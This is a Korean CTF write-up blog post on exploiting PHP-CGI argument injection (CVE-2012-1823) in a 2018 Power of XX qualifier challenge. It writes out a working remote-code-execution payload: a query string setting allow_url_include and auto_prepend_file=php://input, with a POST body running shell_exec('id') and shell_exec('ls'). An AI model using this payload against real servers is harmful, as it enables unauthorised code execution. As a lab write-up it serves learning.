 ```yaml
---
layout: post
title: ! "[CTF] 2018 POXX 예선 MyFirstServerInfo write up"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - Web-hacking
  - CTF
  - POXX
  - write-up
---
```


2018년도 Power of XX 의 예선에 참가했습니다. 작년엔 본선에 진출했으나 올해는 아쉽게도 예선만 참가하게 됐네요 :(
이 문제는 저에게 의미있는 문제가 될 것 같아요. 왜냐하면 공식적인 대회에서 플래그를 찾아낸 첫번째 문제거든요!
문제 이름에도 First가 들어가고..ㅎㅎ 앞으로 플래그를 보는게 익숙해졌으면 좋겠네요

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/phpinfo.png)

문제 페이지에 들어가면 `phpinfo`가 보인다.
지금까지 phpinfo 관련 문제들은 꽤 봐왔으나, 그때마다 이걸 보고 뭘 알아낼 수 있지? 어떻게 공격하지? 라는 생각만 들었다.
그래도 이번엔 열심히 취약점을 찾아봐야겠다는 생각으로 자세히 보니 cgi 라는게 많이 보였다.
cgi를 처음 알게 된건 이번 학기 네트워크 수업 실습때였는데, cgi를 사용하여 python과 html을 같이 쓰는거였다.

`cgi`란 공용 게이트웨이 인터페이스(Common Gateway interface)의 약자로 웹 서버 상에서 사용자 프로그램을 동작시키기 위한 조합이다.

그래서 cgi 취약점에 대해 찾아보다가 PHP-CGI(CVE-2012-1823) 취약점에 대해 포스팅한 글을 보게되었다.
[참고](https://m.blog.naver.com/PostView.nhn?blogId=heapskewl73&logNo=221130879514&proxyReferer=https%3A%2F%2Fwww.google.co.kr%2F)


취약점 요약: 2012년 1월 PHP 5.4.2 이전 버전에서 원격 코드 실행이 가능한 취약점이 발견됐다. 이 취약점은 sapi/cgi/cgi_main.c 파일 내의 CGI 스크립트(php-cgi)가 -s,-d,-c 등의 매개 변수를 적절히 검증하지 않아 발생한다.

1. 취약점 대상
![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-table1.png)

2. 취약점 공격(php-cgi 주요 옵션)
![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-table2.png)

3. 취약점 공격(php.ini 주요 설정)
![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-table3.png)

위 옵션들을 바탕으로 문제 페이지에 넘겨보면

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-s.png)

-s 옵션의 경우 색깔은 안입혀지지만 소스코드가 보이는 것을 확인할 수 있다.

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-burp-id.png)
-d 과 allow_url_include=1, auto_prepend_file=php://input 을 사용해 시스템 함수를 사용할 수 있다.
`?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input`
`<?php $contents = shell_exec("id"); echo "$contents"; die;`

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-id.png)

이 결과를 이용해 ls를 하면 파일 리스트가 뜨지 않을까 싶었다.

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-burp-ls.png)

`<?php $contents = shell_exec("ls"); echo "$contents"; die;`

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-ls.png)

index.php 파일과 알파벳+숫자로 이루어진 텍스트 파일이 있는 것을 확인할 수 있다.
다행히 바로 저 파일에 접근할 수 있었다.

![]({{ site.baseurl }}/assets/posts/ctf/POXX2018/php-flag.png)

플래그 :)
